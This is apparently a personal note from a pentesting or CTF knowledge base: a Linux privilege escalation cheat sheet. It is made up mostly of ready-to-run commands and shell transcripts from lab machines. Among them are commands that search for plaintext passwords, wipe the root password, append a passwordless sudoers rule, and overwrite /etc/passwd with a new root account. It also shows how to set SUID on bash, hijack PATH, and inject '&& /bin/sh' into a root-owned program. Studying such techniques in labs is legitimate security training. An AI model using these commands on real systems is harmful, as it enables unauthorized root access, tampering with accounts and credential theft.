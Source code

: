 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Linux Privilege Escalation]]  
___

## Description:  
Auto enumeration with [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

### useful enumeration
**users**
`cat /etc/passwd`

**What commands can the user execute with sudo?**
`sudo -l
Is there a * in the command and can you run --help?
https://gtfobins.github.io/gtfobins/less/
Can you pass environment variables?
a way around the minimized restriction when you have * in the command

look for wildcards to run anything or try path traversal
`(ALL) /usr/bin/node /usr/local/scripts/*.js`
means this will work:
`sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/rev.js`

**check for mail**
`ls /var/mail/`

**What is the kernel version and architecture type?**
`uname -a
`uname -r

**What is the OS version**
`cat /etc/*-release
kernel modules
`lsmod`
`/sbin/modinfo libata`

**What languages are installed?**
`man -k language
`which gcc
`which g++

**running processes**
ps aux

**Run pspy64 on the machine to get the process run by root.**

**What are the SUID/GUID binaries?**
``find / -perm -u=s -type f 2>/dev/null
``find / -perm -g=s -type f 2>/dev/null

look for vulnerable programs that run as root
[gtfobins](https://gtfobins.github.io/)

**Are there world writable files?**
`find / -writable -type d 2>/dev/null

**What have users been doing? Command history?**
`history
``.bash_history

**Are there any plaintext credentials to be found?**
`find . -type f | xargs grep –i “password”
`grep –r . –e “password” 2>/dev/null

**What jobs are scheduled?**
`crontab -l
`ls -lah /etc/cron* 2>/dev/null
`cat /etc/crontab`

**networking**
`netstat -tulpn`
`/sbin/route`
`ss -anp`
`cd /etc/iptables`
`cat /etc/hosts` (can find vhosts on webservers or check config files)

**applications installed**
`dpkg -l`

**unmounted disks**
`cat /etc/fstab`
`mount`
`/bin/lsblk`

**What processes and services are running?  Which are running as root?**
`ps –ef
`ps –ef | grep root

**Script that deletes the root password**
bash:
`passwd -d root`
`su root`
python:
`import os;os.system(\"passwd -d root\")`
or
`echo "import os;os.system(\"passwd -d root\")" > bash.py`


**Scripts that can be used if they run as root:**
`echo “user ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers
`echo “user::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd
`bash -i

**Editing the Sudoers file to give root**
change:
`loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht 
To:
`loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht 
`loneferret@Kioptrix3:~$ sudo /bin/su 

**Can you set a SUID on bash?**
`chmod +s /bin/bash`
`/bin/bash -p`

**Is /etc/passwd writable?**
Removing x means root requires no password
`echo root::0:0:root:/root:/bin/bash > /etc/passwd`
--OR--
generate hash of the password:
`openssl passwd -1 -salt [salt value] {password}
`openssl passwd -1 -salt user3 pass123
to create a second root user with "mrcake" password:
`echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
to switch to a root2 account that was just created:
`su root2
`Password: mrcake
su root
**Can you run tcpdump?**
run tcpdump with -I lo for loopback
or what other systems are connecting to it? You might be able to get a username and password

**is it AD domain joined?**
check:
`/var/lib/sss/db`
`strings cache_cerberus.local.ldb
Look for password hashes

**Program that runs a command without an absolute path**
Create a program with the same name in the tmp directory (echo /bin/bash >> command) and then add tmp to the beginning of path (export PATH=/tmp:$PATH)

```
kane@pwnlab:~$ cd /tmp

cd /tmp

kane@pwnlab:/tmp$ echo /bin/bash > cat

echo /bin/bash > cat

kane@pwnlab:/tmp$ chmod 777 cat

chmod 777 cat

kane@pwnlab:/tmp$ export PATH=/tmp:$PATH

export PATH=/tmp:$PATH

kane@pwnlab:/tmp$ cd /home/kane

cd /home/kane

kane@pwnlab:~$ ./msgmike

./msgmike

mike@pwnlab:~$ id

id

uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)

```
**Can you use command concatenation with && /bin/sh or &&/bin/bash?**

```
mike@pwnlab:/home/mike$ ./msg2root

./msg2root

Message for root: hello && /bin/sh

hello && /bin/sh

hello

# id

id

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
